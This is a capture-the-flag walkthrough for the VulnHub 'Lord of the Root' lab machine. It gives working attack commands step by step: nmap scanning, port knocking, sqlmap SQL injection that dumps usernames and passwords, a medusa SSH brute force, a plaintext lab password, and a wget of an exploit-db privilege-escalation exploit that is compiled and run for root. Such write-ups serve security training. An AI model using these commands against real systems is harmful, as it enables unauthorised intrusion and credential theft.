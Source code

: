 

İndirme Linki; https://www.vulnhub.com/entry/lord-of-the-root-101%2C129/

To find the ip address of the virtual machine after the lab setup


<code>netdiscover -i eth1 -r 192.168.56/24 </code>  
we run the above command

![1](https://user-images.githubusercontent.com/32979760/115157062-e6548b80-a08f-11eb-845a-7d17f1ce0738.PNG)

![2](https://user-images.githubusercontent.com/32979760/115157080-f66c6b00-a08f-11eb-9f61-bde36fe19ada.PNG)

When we look at the output above, we have found the ip address of the virtual machine. Now we will do an nmap scan in the next step.

<code>nmap -T5 -A -n 192.168.56.104 </code> 

we run the above command
![3](https://user-images.githubusercontent.com/32979760/115157157-5cf18900-a090-11eb-900d-553683414dcc.PNG)

As can be seen from the output, we see that the ssh service is open and we are trying to establish an ssh connection.
<code>ssh root@192.168.56.104</code>
we run the above command

![4](https://user-images.githubusercontent.com/32979760/115157220-b8bc1200-a090-11eb-83e9-e240c7105d88.PNG)

When we look at the output, a message is given that we need to perform port knocking.

Download the python tool here; https://github.com/grongor/knock

<code>./knock.py 192.168.56.104 1 2 3 </code>

we run the above command.

![5](https://user-images.githubusercontent.com/32979760/115157381-9a0a4b00-a091-11eb-89eb-efa0e17613c0.PNG)

And again we scan with nmap.


<code>nmap -T5 -sS -A -n 192.168.56.104 --top-ports 1000 </code>

we run the above command.


![6](https://user-images.githubusercontent.com/32979760/115157471-10a74880-a092-11eb-8c46-fcd3378537c4.PNG)

As can be seen in the printout, it has been seen that port 1337 is open and the website has been visited.

![7](https://user-images.githubusercontent.com/32979760/115157551-99be7f80-a092-11eb-86cd-4f44efa4fbd6.PNG)

When we visit the website, there is a photo and an inscription on it that I will take the ring to mordor.
Looking at the source code of the site, only a single line img src of the photo was seen, it was understood that we could not get anything from this page, and directory discovery was started.

<code>dirb http://192.168.56.104/1337 </code>

we run the above command.

![8](https://user-images.githubusercontent.com/32979760/115157993-ad6ae580-a094-11eb-9b54-0d622a0bab96.PNG)

and as we can see from the output, the images folder was found, the files in the images folder were checked with exiftool and binwalk, the contrast settings of the downloaded photos were changed. No results were obtained from these searches. Robots.txt, which is one of the pages to be checked in every CTF, was checked.


![9](https://user-images.githubusercontent.com/32979760/115158146-7c3ee500-a095-11eb-9b45-17909bbb7b61.PNG)

As we can see in the output above, a photo again welcomes us and we look at the source code of the page.

![10](https://user-images.githubusercontent.com/32979760/115158221-c7f18e80-a095-11eb-9922-1bc2baa26ef7.PNG)

and we found something as we will see in the output. We see it in 2 times encoded base64 format, we decode them.

![11](https://user-images.githubusercontent.com/32979760/115158353-6978e000-a096-11eb-8116-c0e53f3953b3.PNG)

we go to the directory we found in the output.


![12](https://user-images.githubusercontent.com/32979760/115158402-a04ef600-a096-11eb-9bcc-63fa18bd0910.PNG)

and the gates of mordor welcome us :) .
It is thought that there is a sql injection vulnerability on this login page and the necessary tests have been continued.
We run Burp, activate the intercept, send a post request and save the request here.

![14](https://user-images.githubusercontent.com/32979760/115158581-882ba680-a097-11eb-8cf1-bb82d49f2071.PNG)

After saving the request here, we open it with the text editor.

![15](https://user-images.githubusercontent.com/32979760/115158650-dc368b00-a097-11eb-8b65-d93c208f224c.PNG)

As you can see, the * character has been added to the end of the usertest text. For this burp, it is specified where the post request and payloads are sent.

<code>sqlmap -r burpresult.txt(dosya adımız) --technique T --dbms mysql --dbs </code>

We run the command and see that the vulnerability exists and start pulling database names.


![16](https://user-images.githubusercontent.com/32979760/115159382-8bc12c80-a09b-11eb-8a64-90496a8f0fc8.PNG)

Looking at the database names, it is obvious that the information of the database named Webapp will be retrieved.

<code>sqlmap -r burpresult.txt --dbms mysql --technique T --tables -D Webapp </code>

![17](https://user-images.githubusercontent.com/32979760/115159498-12760980-a09c-11eb-9987-4817fbe2b799.PNG)
![18](https://user-images.githubusercontent.com/32979760/115159528-376a7c80-a09c-11eb-87ed-046d6005935c.PNG)

Let's start pulling the columns in the Users table, which is the only table, but first, let's learn the column names to pull the data in the column.

<code>sqlmap -r burpresult.txt --dbms mysql --technique T -D Webapp -T Users --columns</code>
![19](https://user-images.githubusercontent.com/32979760/115159674-ffb00480-a09c-11eb-9055-972398caaeff.PNG)

Since there are username and password columns we need here, we start pulling the data there.

<code>sqlmap -r burpresult.txt --dbms mysql --technique T -D Webapp -T Users -C username --dump </code>
  
![20](https://user-images.githubusercontent.com/32979760/115159839-c75cf600-a09d-11eb-9e06-8a69ee243808.PNG)

We pulled the username information, now let's pull the password information.

<code>sqlmap -r burpresult.txt --dbms mysql --technique T -D Webapp -T Users -C password --dump </code>

![21](https://user-images.githubusercontent.com/32979760/115159999-929d6e80-a09e-11eb-9f45-0d6a1eaf7c8c.PNG)

We write these user names and passwords to a text file.
![22](https://user-images.githubusercontent.com/32979760/115160052-d98b6400-a09e-11eb-9f03-4bd0fe7f4c3a.PNG)
![23](https://user-images.githubusercontent.com/32979760/115160053-da23fa80-a09e-11eb-98e5-cd5a4f84eb3e.PNG)

Since we do not know which user is authorized to connect via ssh, we will brute force the ssh service with medusa.
<code>medusa -h 192.168.56.104 -U users -P passwords -M ssh </code>

![24](https://user-images.githubusercontent.com/32979760/115160119-3a1aa100-a09f-11eb-8c9b-3f8abd14638d.PNG)

Our brute force attack yielded results and we found the username and password, now we make an ssh connection with this information.

<code>ssh smeagol@192.168.56.104 </code>

After that, we are asked for the password and we enter the password </code>MyPreciousR00t</code> here and we fall into the shell. After the shell is dropped, we type whoami and see who we are.

![25](https://user-images.githubusercontent.com/32979760/115160219-c036e780-a09f-11eb-8ae2-27af12ec2a03.PNG)

We see that we are not root and we need to investigate whether there are exploits to raise rights on this system. First, we run the following command and see the system information and version.


<code>uname -a </code>


![26](https://user-images.githubusercontent.com/32979760/115160265-1146db80-a0a0-11eb-9ed2-0ab8b78122dd.PNG)

We type the system information into the google search engine and search for exploits.

![27](https://user-images.githubusercontent.com/32979760/115160327-566b0d80-a0a0-11eb-9b1c-56b20cb80cab.PNG)

Here we come across 2 exploits, we try the first of them.

<code>wget https://www.exploit-db.com/download/39166 </code>

![28](https://user-images.githubusercontent.com/32979760/115160393-96ca8b80-a0a0-11eb-9a34-9113ee773e1d.PNG)

Then, as shown in the screen shoot below, we enter the commands in order and compile and run our C code.

![29](https://user-images.githubusercontent.com/32979760/115160459-e14c0800-a0a0-11eb-813a-8095214fa1cb.PNG)

When we type whoami, we see that we are root.

![30](https://user-images.githubusercontent.com/32979760/115160497-22441c80-a0a1-11eb-815d-f1079700c1aa.PNG)

and we go to the root directory and read the Flag.txt in it and end the CTF here.

Thank you for reading.






